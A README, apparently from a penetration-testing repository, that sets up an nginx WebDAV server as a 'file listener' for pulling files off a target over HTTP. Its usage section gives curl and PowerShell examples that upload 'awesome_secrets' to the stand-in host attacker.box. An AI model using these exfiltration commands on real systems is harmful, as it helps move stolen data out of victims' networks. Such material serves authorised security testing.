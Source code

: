 # nginx File Listener
This is an nginx configuration that you can use to set up a server to receive files from a
target over HTTP.  Most targets can talk out over HTTP, so this helps if you have limited options
to transfer files from a target.

## Requirements
You will need an nginx server set up with the WebDAV module built in.  Kali Rolling (as of September 2018) has this module built in.  If you get an error from nginx that ```dav_methods``` is not valid, you will likely need to build a version of nginx that has this module built in.  You can use the ```--with-http_dav_module``` configuration parameter to build the module in at compile time:

```bash
./configure --with-http_dav_module
```

## Installation
1.  Create a directory to receive your uploads in and make sure the user running nginx has permission to write to this folder.  nginx runs as the ```www-data``` user on Kali.  Make sure line 44 of nginx_file_listener reflects the path you choose.
2.  Modify lines 32 and 35 if you want to change the port that the server listens on (default is 8001).
3.  Copy nginx_file_listener to ```/etc/nginx/sites-available```.
4.  Create a symlink to nginx_file_listener in /etc/nginx/sites-enabled.
    ```bash
    ln -s /etc/nginx/sites-available/nginx_file_listener /etc/nginx/sites-enabled
    ```
5.  Restart nginx
    ```bash
    systemctl restart nginx
    ```
6.  Make sure nginx is listening on the port you chose:
    ```bash
    netstat -anp | grep 8001

    # You can also use ss
    ss -tap | grep 8001
    ```

## Usage
You can upload files to the server using curl from a Linux box:
```bash
curl --upload-file <file_name> http://<server_IP>:<port>/<path>

# Example
curl --upload-file awesome_secrets http://attacker.box:8001/secretfiles
```

The example will upload the file ```awesome_secrets``` to ```/var/www/uploads/secretfiles/awesome_secrets``` on the server.

On Windows, you can use the following bit of PowerShell (requires PowerShell 3.0+):
```powershell
Invoke-RestMethod -Uri http://<server_IP>:<port>/<path>/<file name> -Method Put -InFile <path to file>

# Example
Invoke-RestMethod -Uri http://attacker.box:8001/secretfiles/awesomesecrets -Method Put -InFile awesomesecrets
```
